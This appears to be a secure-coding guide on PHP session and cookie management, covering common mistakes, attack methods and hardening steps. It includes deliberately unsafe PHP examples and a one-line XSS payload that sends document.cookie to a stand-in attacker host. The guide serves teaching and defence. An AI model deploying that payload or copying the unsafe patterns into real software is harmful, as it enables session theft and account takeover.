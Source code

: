 
# Secure Session & Cookie Management

## Table of Contents
1. [Common Developer Mistakes](#1-common-developer-mistakes)
   - [Session Security](#11-session-security)
   - [Cookie Security](#12-cookie-security)
2. [Hacker Exploitation](#2-hacker-exploitation)
   - [Session Hijacking](#21-session-hijacking)
   - [Cookie Theft](#22-cookie-theft)
3. [Secure Implementation](#3-secure-implementation)
   - [Session Hardening](#31-session-hardening)
   - [Cookie Best Practices](#32-cookie-best-practices)
4. [Advanced Protections](#4-advanced-protections)

---

## 1. Common Developer Mistakes

### 1.1 Session Security

❌ **Unsafe Session Initialization**
```php
// UNSAFE: Missing secure session config
session_start();
$_SESSION['user_id'] = $user_id;
```

❌ **Session Fixation Vulnerability**
```php
// UNSAFE: Accepting external session IDs
if (isset($_GET['sessionid'])) {
    session_id($_GET['sessionid']); // Allows session hijacking
}
```

### 1.2 Cookie Security

❌ **Insecure Cookie Settings**
```php
// UNSAFE: Missing security flags
setcookie('remember_me', $token, time()+86400);
```

❌ **Sensitive Data in Cookies**
```php
// UNSAFE: Storing user data directly
setcookie('user_data', json_encode(['email' => $email]));
```

---

## 2. Hacker Exploitation

### 2.1 Session Hijacking

| Attack Method       | How It Works                      | Prevention                     |
|---------------------|-----------------------------------|--------------------------------|
| Session Sniffing    | Intercept unencrypted session IDs | Use HTTPS + `Secure` flag      |
| Session Fixation    | Force victim to use known SID     | Regenerate ID on login         |
| XSS Attack          | Steal cookies via JavaScript      | `HttpOnly` flag + CSP headers  |

### 2.2 Cookie Theft

🛠 **Common Exploits:**
- **Man-in-the-Middle:** Intercepting unencrypted cookies
- **CSRF Attacks:** Forging requests using saved cookies
- **Physical Access:** Extracting cookies from browsers

💣 **Real-World Example:**
```javascript
// Malicious script stealing cookies
document.location='https://hacker.com/steal?cookie='+document.cookie;
```

---

## 3. Secure Implementation

### 3.1 Session Hardening

✅ **Secure PHP Session Config**
```php
session_start([
    'cookie_secure'   => true,    // HTTPS only
    'cookie_httponly' => true,    // No JS access
    'use_strict_mode' => true     // Prevent session fixation
]);

// Always regenerate ID on privilege change
session_regenerate_id(true);
```

### 3.2 Cookie Best Practices

✅ **Secure Remember-Me Cookie**
```php
$token = bin2hex(random_bytes(32));
setcookie(
    'remember_me',
    $token,
    [
        'expires'  => time() + 86400 * 30,
        'secure'   => true,
        'httponly' => true,
        'samesite' => 'Strict'
    ]
);

// Store hashed token in DB
$hashedToken = hash('sha256', $token);
$stmt = $conn->prepare("INSERT INTO auth_tokens VALUES (?, ?)");
```

---

## 4. Advanced Protections

### 🔒 Security Headers
```php
header("Content-Security-Policy: default-src 'self'");
header("X-Frame-Options: DENY");
```

### 🔐 Session Fingerprinting
```php
// Bind session to user agent/IP
$_SESSION['fingerprint'] = hash('sha256', 
    $_SERVER['HTTP_USER_AGENT'] . 
    $_SERVER['REMOTE_ADDR']
);

// Validate on each request
if ($_SESSION['fingerprint'] !== hash('sha256', $_SERVER[...])) {
    session_destroy();
}
```

### Security Checklist
✔ Always use `Secure` and `HttpOnly` flags  
✔ Set `SameSite=Lax/Strict` for cookies  
✔ Regenerate session IDs after login  
✔ Store session data server-side only  
✔ Implement idle session timeout  

